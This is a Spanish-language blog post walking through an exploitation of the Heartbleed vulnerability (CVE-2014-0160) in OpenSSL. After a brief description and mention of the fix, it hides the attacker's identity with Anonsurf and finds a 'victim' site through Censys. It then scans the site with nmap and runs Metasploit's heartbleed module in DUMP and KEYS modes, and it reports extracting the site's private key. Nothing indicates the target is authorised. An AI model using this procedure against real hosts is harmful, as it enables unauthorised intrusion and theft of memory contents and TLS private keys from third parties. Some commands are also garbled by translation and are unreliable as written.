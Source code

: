 ```yaml
---
layout: single
title: Explotación de CVE-2014-0160 - Vulnerabilidades
excerpt: "Heartbleed, mejor conocida como CVE-2014-0160 es una vulnerabilidad que permite a un atacante leer hasta 64 Kb de memoria por ataque en cualquier cliente o servidor conectado."
date: 2023-08-25
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2014-0160/cve-2014-0160.png
  teaser_home_page: true
  icon: /assets/images/heartbleed.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2014-0160
  - heartbleed
  - openSSL
  - censys
  - metasploit
  
---
```


![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-0160.png)

## Descripción:

CVE-2014-0160, o "Heartbleed", no es un problema en SSL / TL específicamente, sino que fue un problema de implementación en OpenSSL que afecta a las versiones 1.0.1 a 1.0.1f. Puede solucionarse actualizando a una versión más reciente de OpenSSL o compilando alternativamente con la opción -DOPENSSL_NO_HEARTBEATS. No requiere un Man-in-the-Middle para explotar y puede ser explotado tanto contra el servidor como contra el cliente. El problema permite a un atacante extraer hasta 64 kb de memoria del sistema vulnerable, lo que puede conducir al robo de credenciales, tokens de sesión y claves privadas del servidor.

## Explotaciòn:

Para esta explotaciòn vamos a utilizar una maquina con sistema operativo Kali Linux. Como primera medida vamos a iniciar el anunsurf para manejar el anonimato.

• Anonsurf start

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01602.png)

Realizamos la búsqueda den Censys de un sitio vulnerable.

• https://censys.io/

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01603.png)

Luego de detectar la dirección IP de una victima realizamos un escaneo con nmap vara validar si es vulnerable.

• nmap -p 443 --script = ssl-heartbleed <URL> para HEARTBLEED

• nmap -sV --version-light --script ssl-poodle -p 443 <URL> para POODLE

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01604.png)

Utilizamos un modulo axuliar de metasploit, ingresamos la ip, puerto y seleccionamos modo DUMP para extraer información de la memoria del sitio., finalmente ejecutamos el exploit.

• msfconsole

• usar auxiliar / escáner / ssl / openssl_heartbleed msf auxiliar

• set RHOSTS <IP O URL VICTIMA>

• set RPORT 443

• set VERBOSE true

• set action DUMP

• exploit

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01605.png)

Observamos que nos trae 65 Kb de información de la memoria del sitio.

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01606.png)

Cambiamos el modo de ataque para que nos extraiga claves que tenga y lo ejecutamos de nuevo.

• set action KEYS

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01607.png)


Finalmente bbtenemos la clave privada del sitio.

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01608.png)

## Referencias:

• https://heartbleed.com/

• https://www.welivesecurity.com/la-es/2014/04/09/5-cosas-debes-saber-sobre-heartbleed/


